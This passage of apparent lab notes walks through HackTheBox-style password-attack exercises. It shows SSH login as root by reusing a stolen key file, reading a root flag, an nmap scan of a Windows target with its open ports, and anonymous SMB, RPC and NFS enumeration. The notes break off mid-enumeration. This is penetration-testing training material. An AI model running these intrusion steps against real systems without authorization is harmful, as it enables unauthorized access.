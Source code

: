     su -
    # switching from dennis to root does not work with above passwords
    
    # we can try to reuse same password for root, but in SSH login
    ssh root@password-attacks-2.htb
    # we need key file

    ssh root@password-attacks-2.htb -i dennis_id_rsa
    # check password re-use
    # this works

    cat /root/flag.txt
    ```

* Password Attacks Lab - Hard:

  * Map given Windows client ```password-attacks-3.htb``` in ```/etc/hosts```

  * It is given that we have a user 'Johanna'

  * Scan given machine - ```nmap -T4 -p- -A -Pn -v password-attacks-3.htb```

  * Open ports & services:

    * 111/tcp - rpcbind
    * 135/tcp - msrpc
    * 139/tcp - netbios-ssn
    * 445/tcp - microsoft-ds
    * 2049/tcp - nfs
    * 3389/tcp - ms-wbt-server
    * 5985/tcp - http
    * 47001/tcp - http

  * ```nmap``` also shows target Windows machine name 'WINSRV'

  * Enumerating SMB, NFS:

    ```sh
    smbclient -N -L //password-attacks-3.htb
    # NT_STATUS_ACCESS_DENIED

    rpcclient -U "" password-attacks-3.htb

    showmount -e password-attacks-3.htb
    # nothing found
    ```
  